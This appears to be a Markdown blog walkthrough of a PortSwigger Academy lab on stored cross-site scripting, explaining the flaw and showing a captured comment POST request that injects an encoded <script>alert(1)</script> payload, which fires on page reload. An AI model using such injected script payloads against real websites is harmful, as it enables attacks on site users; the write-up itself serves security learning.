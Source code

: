 ```yaml
---
title: "Stored XSS into HTML context with nothing encoded Walkthrough"
description: "Do you really know about Stored XSS ??"
date:  2024-09-28
categories: [Walkthrough]
tags: [PortSwigger, Academy , Lab , PortSwigger Academy Lab , XSS , Cross Site Scripting, Stored XSS , HTML] 
image :
    path : https://i.pinimg.com/originals/25/3e/75/253e75f72425354ce021830ad0a4a219.gif
---
```




#### <span style="color: orange;"><b># What do you understand by Stored XSS in first place ?</b></span>

Stored cross-site scripting, often referred to as second-order or persistent XSS, occurs when an application saves data from an untrusted source and later incorporates it into its HTTP responses in an unsafe manner.

Cross-Site Scripting (XSS) is a security vulnerability that arises when an application fails to properly sanitize user input, allowing an attacker to inject malicious scripts. To mitigate XSS, it's crucial to validate, sanitize, and encode user input. I recommend reading up on this topic to gain a deeper understanding. Here's a link to my latest [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/).


<span style="color: Green;"><b>Objective :</b></span>

```
we have to exploit the Stored CRoss-site Vulnerability in the comment functionality , and have to pop up with the *alert* javascript function
```

![[Image]](https://i.imghippo.com/files/BhZG71727519335.png)

-> Let's start one of the example lab of reflected xss "Stored XSS into HTML context nothing encoded"

![[Image]](https://i.imghippo.com/files/5pOMo1727519333.png)


- as mention , we have to look into the comment functionality of the website , let's enter some random data in the input section , and see how our request goes . 

![[Pasted image 20240720172150.png]](https://i.imghippo.com/files/K9SGW1727519322.png)

- Everything seems normal , our request made to the server  and our is stored on the website server , let try to inject malicious payload that can lead to alert an popup .
- let's inject our payload in the comment section , and get the request from the burp tool.

```
POST /post/comment HTTP/2
Host: 0a7c00f7035d95d581390c3700630095.web-security-academy.net
Cookie: session=TziDVGSAUJJjWzvTbDNLKfnJcBLWfvaz
Content-Length: 166
Cache-Control: max-age=0
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: https://0a7c00f7035d95d581390c3700630095.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7c00f7035d95d581390c3700630095.web-security-academy.net/post?postId=7
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=kzCJNSxuSQOI3Nev2NVAF47xorMf4luB&postId=7&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=nothing&email=nothign%40gmail.com&website=http%3A%2F%2Fnothing.com
```

- after injection the payload everything seems normal as before until refresh the page and sees an pop comes out and our xss payload got triggered  
- after going to that page again i got xss triggered

![[Pasted image 20240720172747.png]](https://i.imghippo.com/files/FidzU1727519328.png)

- This is how lab is solved , this type of Getting a POPUP  , we mostly submit during the POC of xss in bug bounty program where we don't just popup alert , instead we weaponize our payload and increase the impact or severity . 

![[Pasted image 20240720172907.png]](https://i.imghippo.com/files/Lwv6V1727519334.png)




- To learn `impact of stored XSS attacks` , `stored XSS in different contexts` and `How to find and test for stored XSS vulnerabilities` [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/)

<br>

-------------------------------------------------------------


##### <span style="color: Green;"><b># Final Thoughts</b></span>
<br>
I hope this space continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts—my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on
[Linkedin](https://www.linkedin.com/in/hitesh-sharma-413862245) and [Twitter](https://twitter.com/archtrmntor)